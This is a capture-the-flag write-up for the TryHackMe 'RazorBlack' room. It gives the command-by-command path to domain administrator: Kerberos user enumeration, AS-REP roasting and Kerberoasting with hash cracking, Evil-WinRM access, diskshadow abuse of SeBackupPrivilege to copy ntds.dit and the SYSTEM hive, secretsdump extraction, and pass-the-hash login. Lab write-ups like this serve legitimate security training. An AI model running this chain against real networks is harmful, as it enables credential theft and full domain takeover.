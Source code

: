 ```yaml
---
description: https://tryhackme.com/room/raz0rblack
---
```


# RazorBlack

{% hint style="info" %}
This write up does not cover individual flags for the room. This write up is treated as a boot to root from external to domain administrator access.
{% endhint %}

## Nmap

```
sudo nmap 10.10.150.205 -p- -sS -sV

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-08-13 10:02:50Z)
111/tcp   open  rpcbind       2-4 (RPC #100000)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: raz0rblack.thm, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
2049/tcp  open  mountd        1-3 (RPC #100005)
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: raz0rblack.thm, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49672/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49673/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  msrpc         Microsoft Windows RPC
49678/tcp open  msrpc         Microsoft Windows RPC
49693/tcp open  msrpc         Microsoft Windows RPC
49707/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: HAVEN-DC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

### Kerberos user enumeration

Hitting kerberos first we perform user enumeration making use of `kerbrute`.

```
kerbrute userenum '/usr/share/seclists/Usernames/xato-net-10-million-usernames.txt' --dc '10.10.35.255' --domain 'raz0rblack.thm'
```

After a short while we obtain a couple of usernames.

![](<../../../.gitbook/assets/image (20) (3).png>)

### No Pre-Authentication

With a coupe of known usernames we run them with Impacket's `GetNPUsers.py` . The user _twilliams_ we find has [No Pre-Authentication](https://ldapwiki.com/wiki/Kerberos%20Pre-Authentication) enabled in Active Directory.

```
GetNPUsers.py 'raz0rblack.thm'/'twilliams': -request -dc-ip '10.10.146.253' -format 'john' -no-pass
```

As such, we are able to pull the `krb5asrep` hash from the user account which can next be used against `John` for cracking.

![](<../../../.gitbook/assets/image (2087).png>)

### Hash Cracking #1

A few minutes of cracking against the `rockyou.tx`t word list we soon reveal the plain text password.

```
sudo john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

![](../../../.gitbook/assets/2022-08-13\_06-56\_1.png)

### Service Prinicpal Names

With a set of valid credentials we find we are unable to proceed with SMB. Using the same credentials to check for Service Principla Names using Impacket's G`etUserSPNs.py` we are able to pull a hash for the user _xyan1d3_.

```
GetUserSPNs.py raz0rblack.thm/twilliams:'<Password>' -dc-ip '10.10.146.253' -request
```

![](<../../../.gitbook/assets/image (2084).png>)

### Hash Cracking #2

Taking the `krb5tgs` hash we are able to again crack with `John` and the `rockyou.txt` list.

![](../../../.gitbook/assets/2022-08-13\_06-55.png)

### WinRM

With another valid set of credentials we find we are able to login via `WinRM` for remote access using [Evil-WinRM](https://github.com/Hackplayers/evil-winrm).

```
evil-winrm -i '10.10.35.255' -u 'xyan1d3' -p '<Password>'
```

![](<../../../.gitbook/assets/image (2083).png>)

### SeBackupPrivilege

Performing basic enumeration steps we find our current user is a member of the "Backup Operators" group and have privileges for **SeBackupPrivilege**.

![](<../../../.gitbook/assets/image (8) (3).png>)

{% content-ref url="../linux/fusion-corp.md" %}
[fusion-corp.md](../linux/fusion-corp.md)
{% endcontent-ref %}

This privilege grants us the ability to create backups of files on the system. Knowing this, a high value file would be the `ntds.dit` file which is a database of hashes for domain objects / users. As the `ntds.dit` file is in constant use we will be unable to create a backup using normal methods as the system will lock the file.

What we can do instead is create a Distributed Shell File (DSH). This file will contain the appropriate commands for us to run the `diskshadow` utility against the C: drive and ultimately the _`ntds.dit`_ file.

First created a file called `viper.dsh` on the attacking machine. Then insert the following contents:

```
set context persistent nowriters
add volume c: alias viper
create
expose %viper% x:
```

Once completed use the command `unix2dos` to convert the file to DOS format.

```
unix2dos viper.dsh
```

Then on the target system create a directory called 'temp' in `c:\temp.` After this upload the `viper.dsh` file.

![](<../../../.gitbook/assets/image (2095).png>)

Then execute `diskshadow` against the file.

```
diskshadow /s viper.dsh
```

![](<../../../.gitbook/assets/image (2100).png>)

After creating the shadow copy we can then use `robocopy` to copy the `ntds` database to our current working directory.

```
robocopy /b x:\windows\ntds . ntds.dit
```

From here we need to extract the SYSTEM hive which will be required for extracting the hashes with Impacket later.

```
reg save hklm\system c:\Temp\system
```

![](<../../../.gitbook/assets/image (35).png>)

After the registry hives have been saved we can download to our attacking machine.

```
download ntds.dit
download system
```

![](<../../../.gitbook/assets/image (3) (4).png>)

Back on the attacking machine use the following command with Impacket's `secretsdump.py` to extract the hashes from `ntds.dit`.

```
secretsdump.py -ntds ntds.dit -system system local
```

![](<../../../.gitbook/assets/image (2089).png>)

### WinRM (Administrator)

With the Administrators hash we can utilize `Evil-WinRm` again to login as the Domain Administrator.

```
evil-winrm -i '10.10.95.150' -u 'administrator' -H '<Hash>'
```

![](<../../../.gitbook/assets/image (2093).png>)
